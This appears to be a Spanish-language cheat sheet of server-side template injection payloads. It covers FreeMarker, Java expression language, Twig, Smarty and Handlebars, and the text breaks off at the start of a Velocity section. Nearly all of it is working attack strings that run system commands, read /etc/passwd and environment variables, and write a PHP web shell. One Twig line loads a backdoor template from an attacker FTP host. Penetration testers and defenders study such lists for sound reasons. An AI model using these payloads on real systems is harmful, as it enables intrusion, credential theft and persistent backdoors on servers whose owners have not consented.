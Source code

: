 ```
${{<%[%'"}}%\.
```
![image](https://user-images.githubusercontent.com/50930193/171760941-308979f8-b945-400f-aa7d-e02a0976231d.png)

Algunos valores que se pueden usar después que el template ha sido identificado es el siguiente
```
-------------------------------------------------------------------
Polyglot:
${{<%[%'"}}%\
-------------------------------------------------------------------
FreeMarker (Java):
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
--------------------------------------------------------------------
(Java):
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
--------------------------------------------------------------------
Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
--------------------------------------------------------------------
Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
-------------------------------------------------------------------
Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
-------------------------------------------------------------------
Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
```